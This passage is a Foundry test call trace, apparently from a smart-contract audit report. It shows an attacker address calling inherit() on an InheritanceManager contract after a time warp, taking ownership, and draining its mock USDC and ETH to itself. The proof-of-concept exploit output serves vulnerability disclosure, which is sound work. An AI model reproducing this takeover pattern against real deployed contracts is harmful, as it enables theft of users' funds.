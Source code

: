 ```diff
    ├─ [559] ERC20Mock::balanceOf(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA]) [staticcall]
    │   └─ ← [Return] 10000000 [1e7]
    ├─ [0] console::log("IM USDC balance:", 10000000 [1e7]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] console::log("IM ETH balance:", 10000000000000000000 [1e19]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [69020] InheritanceManager::addBeneficiery(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(7776001 [7.776e6])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← [Return] 
    ├─ [3672] InheritanceManager::inherit()
    │   └─ ← [Stop] 
    ├─ [419] InheritanceManager::getOwner() [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] VM::assertEq(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] console::log("attacker addr:", attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [419] InheritanceManager::getOwner() [staticcall]
    │   └─ ← [Return] attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]
    ├─ [0] console::log("IM owner:", attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Stop] 
    ├─ [559] ERC20Mock::balanceOf(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA]) [staticcall]
    │   └─ ← [Return] 10000000 [1e7]
    ├─ [27796] InheritanceManager::sendERC20(ERC20Mock: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f], 10000000 [1e7], attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   ├─ [559] ERC20Mock::balanceOf(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA]) [staticcall]
    │   │   └─ ← [Return] 10000000 [1e7]
    │   ├─ [25204] ERC20Mock::transfer(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], 10000000 [1e7])
    │   │   ├─ emit Transfer(from: InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA], to: attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e], value: 10000000 [1e7])
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [32978] InheritanceManager::sendETH(10000000000000000000 [1e19], attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   ├─ [0] attacker::fallback{value: 10000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [559] ERC20Mock::balanceOf(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return] 
    ├─ [559] ERC20Mock::balanceOf(InheritanceManager: [0x88F59F8826af5e695B13cA934d6c7999875A9EeA]) [staticcall]
```